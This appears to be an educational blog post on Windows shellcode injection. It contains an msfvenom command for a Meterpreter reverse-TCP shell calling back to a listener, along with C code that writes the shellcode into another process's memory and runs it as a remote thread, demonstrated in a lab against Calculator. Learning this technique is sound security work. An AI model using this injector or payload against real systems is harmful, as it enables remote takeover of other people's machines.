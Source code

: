 ## Introduction
Finally, we'll be diving into some actual process injection. More specifically, **shellcode** injection. This is generally seen as the most simple form of process injection. 

## Shellcode
First let's briefly make ourselves familiar with what shellcode is. In this context, shellcode is essentially a string raw unencoded bytes that make up machine instructions. We directly place these bytes into the memory of a process such that it can execute them.  Shellcode is extremely target-specific, as the CPU directly performs the instructions. Writing shellcode by hand is not an option, instead we'll be using `msfvenom` to generate it for us.

Let's see what some shellcode might look like. We generate it by using:

```bash
msfvenom --platform windows --arch x64 -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.198.128 LPORT=443 -f c --var-name=our_shellcode
```

Which gives us something like this:
```C
unsigned char payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x4d\x31\xc9\x48\x8b\x72\x50\x48\x0f"
"\xb7\x4a\x4a\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x48\x8b\x52\x20\x8b"
[...]
"\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31"
"\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9"
"\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68"
"\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f";
```

Cool, let's start crafting some source code that performs Process Injection.

>[!info] I won't explain every line of code since that would make this post way too long. For information on how the WIN32 API works and what the different arguments mean, refer to the sources I mentioned in the post about the API.
   
## Getting a handle
Using the WIN32 API we'll start by getting a so-called handle to the target process. This handle is what will identify the process to the API from here on out. To get this handle, we'll need to supply the **Process Identifier (PID)**, which we can find in a task manager and input as an argument.

```C
DWORD dwPID = NULL;
HANDLE hProcess = NULL, hThread = NULL;

if (argc < 2) {
	printf("%s usage: %s <PID>", e, argv[0]);
	return EXIT_FAILURE;
}

dwPID = atoi(argv[1]);
printf("%s trying to get a handle to the process (%ld)\n", i, dwPID);

hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, dwPID);
if (hProcess == NULL) {
	return EXIT_FAILURE;
}

```

Notice that we're giving `OpenProcess()` our `dwPID` as an argument, so that we get a handle to the desired process.

## Allocating memory space in the target process
Now that we have a handle to the target process, we can allocate some new memory inside of it. In order to do that we'll need to know how large this space must be. So at this point we'll need our shellcode ready.

```C
unsigned char payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x4d\x31\xc9\x48\x8b\x72\x50\x48\x0f"
[...]
"\xf0\xb5\xa2\x56\xff\xd5";

size_t payloadSize = sizeof(payload);

rBuffer = VirtualAllocEx(
	hProcess,
	NULL,
	payloadSize,
	(MEM_COMMIT | MEM_RESERVE),
	PAGE_EXECUTE_READWRITE
);
```

The `VirtualAllocEx()` function returns the address of the allocated memory, which we call `rBuffer`. This is the address that we'll write our shellcode to. 

## Injecting the shellcode
Here's the important part: Actually writing the shellcode to the newly created memory buffer in the target process' memory. 

```C
WriteProcessMemory(
	hProcess,
	rBuffer,
	payload,
	payloadSize,
	NULL
);
```

We supply the handle to the process, the address of our newly created buffer, the payload and the size of the payload. 

Let's see our work until now in action! As an example I'll use open up the Windows Calculator and use it as our target process, since there won't be any problem if anything goes wrong. 
![[Screenshot 2025-03-05 203252.png]]
We supply our program with the right PID and execute. 
![[Screenshot 2025-03-05 203827.png]]
Immediately we see that we successfully created and wrote to a new memory region in the calculator's process memory. 
![[Screenshot 2025-03-05 203912.png]]
The address of that buffer is `0x292c9950000`. Let's open up `x64dbg`, attach it to our calculator process and inspect the memory at this address.
![[Screenshot 2025-03-05 204024.png]]
The shellcode I created starts with `FC 48 83 E4 F0 ...`. And indeed, we find those exact bytes at that specific address in the calculators process memory. We've successfully altered another process' memory!

## Executing the injected shellcode
Now there's only one step left: actually having the process execute the injected code. To do this, we'll create a new thread for that process and point its instruction pointer to our buffer's address. That's really all there is to it.

```C
hThread = CreateRemoteThreadEx(
	hProcess,
	NULL,
	0,
	(LPTHREAD_START_ROUTINE)rBuffer,
	NULL,
	0,
	0,
	&dwTID
);
```

We provide the process handle and the `rBuffer` address and the API returns a handle to the thread. The only other thing worth noting is the cast of `rBuffer` to `LPTHREAD_START_ROUTINE`. This is just how the API function wants to receive `rBuffer` and except for some data alignment stuff, nothing changes.

To make sure we actually see the execution of this shellcode happen, we'll use the following line of code:

```C
WaitForSingleObject(hThread, INFINITE);
```

Quite simply put, the first line waits until the execution of this thread has completed and it waits for an infinite amount of time. 